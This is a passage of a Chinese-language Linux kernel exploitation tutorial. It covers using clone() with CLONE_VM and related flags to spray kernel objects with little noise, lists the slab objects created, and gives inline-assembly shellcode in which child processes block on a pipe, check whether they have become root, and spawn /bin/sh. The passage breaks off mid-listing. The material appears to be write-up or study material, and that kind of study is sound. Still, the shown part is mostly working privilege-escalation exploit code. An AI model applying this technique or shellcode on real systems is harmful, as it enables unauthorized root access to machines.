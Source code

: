 而`clone()`过程中，也并不是不会产生噪声——会产生，而且根据其参数不同，执行的分支不同，产生的噪声也不相同。这里我们选择一个噪声最少的分支，即使用如下参数（标志位）来调用`clone()`：

```c
CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND
```

而该分支会创建的`obj`如下，共有`4`个`order 0`的`obj`：

```c
task_struct
kmalloc-64
vmap_area
vmap_area
cred_jar
signal_cache
pid
```

而当设置了`CLONE_VM`这个标志位时，子进程和父进程的内存会共享：这意味着子进程若调用函数，很可能会影响父进程的执行状态。因此在子进程中执行的函数中，我们要完全使用`shellcode`来编写。

### 子进程检查是否获得 root 权限

通过`clone()`产生的子进程需要时刻注意自己是否已经获得了`root`权限。通过轮询来检查自己是否获得`root`权限显然不够优雅，因此可以利用`pipe`管道来实现该功能。每个子进程都使用`read(check_root_pipe[0], child_buf, 1);`这样的方式来从管道中读取一个字节的内容，而管道中没有数据时，其属于阻塞状态。当整个流程执行完毕时，我们只需要向管道另一侧写入数据，即可触发子进程检查自己的`uid`的流程。

例如一个示例如下：

```c
int waiting_for_root_fn(void)
{
    /**
     * 执行如下代码：
     * read(check_root_pipe, child_pipe_buf, 1);
     * if(getuid() == 0){
     *     write(1, root_str, 0x20);
     *     execve("/bin/sh", shell_args, 0);
     * }else{
     *     write(1, failed_str, 0x20);
     *     exit(-6);
     * }
     */
    __asm__ volatile(
        "lea rax, [check_root_pipe];"
        "xor rdi, rdi;"
        "mov edi, dword ptr[rax];"
        "xor eax, eax;"
        "lea rsi, [child_pipe_buf];"
        "mov rdx, 1;"
        "syscall;" // read(check_root_pipe[0], child_pipe_buf, 1);
        "mov rax, 102;"
        "syscall;" // getuid();
        "cmp rax, 0;"
        "jne go;"
        "mov rax, 1;"
        "mov rdi, 1;"
        "lea rsi, [root_str];"
        "mov rdx, 0x50;"
        "syscall;" // write(1, root_str, 0x60);
        "mov rax, 59;"
        "lea rdi, [bin_sh_str];"
        "lea rsi, [shell_args];"
        "mov rdx, 0;"
        "syscall;" // execve("/bin/sh\x00", shell_args, NULL);
        "go:"
        "lea rdi, [ts];"
```